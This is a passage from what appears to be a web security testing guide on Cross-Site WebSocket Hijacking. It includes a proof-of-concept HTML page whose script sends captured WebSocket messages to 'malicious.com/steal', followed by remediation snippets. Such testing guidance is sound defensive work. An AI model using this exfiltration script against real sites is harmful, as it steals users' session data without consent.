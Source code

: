 **Tip**: Save injected payloads and client-side effects in a report.

### 4. Test Cross-Site WebSocket Hijacking (CSWSH)

**Objective**: Ensure WebSocket connections are not vulnerable to cross-origin hijacking.

**Steps**:
1. Create a malicious HTML page:
   ```html
   <!DOCTYPE html>
   <html>
   <body>
     <script>
       const ws = new WebSocket('ws://example.com/ws');
       ws.onmessage = e => {
         fetch('http://malicious.com/steal', { method: 'POST', body: e.data });
       };
       ws.send('test');
     </script>
   </body>
   </html>
   ```
2. Host the page on a controlled server (e.g., `python3 -m http.server 8000`).
3. Load the page in a browser and monitor for stolen data:
   - Check `malicious.com` server logs for intercepted messages.
4. Test with credentials:
   - Include cookies in the WebSocket request and verify data leakage.

**Example Secure Response**:
```http
HTTP/1.1 403 Forbidden
```
Connection rejected due to origin or authentication checks.

**Example Vulnerable Response**:
```http
HTTP/1.1 101 Switching Protocols
```
Data sent to `malicious.com`.

**Remediation**:
- Enforce origin checks:
  ```javascript
  if (req.headers.origin !== 'https://example.com') {
    ws.reject();
  }
  ```
- Require CSRF tokens:
  ```javascript
  if (!req.headers['x-csrf-token']) {
    ws.close();
  }
  ```

**Tip**: Save CSWSH PoC code and stolen data logs in a report.
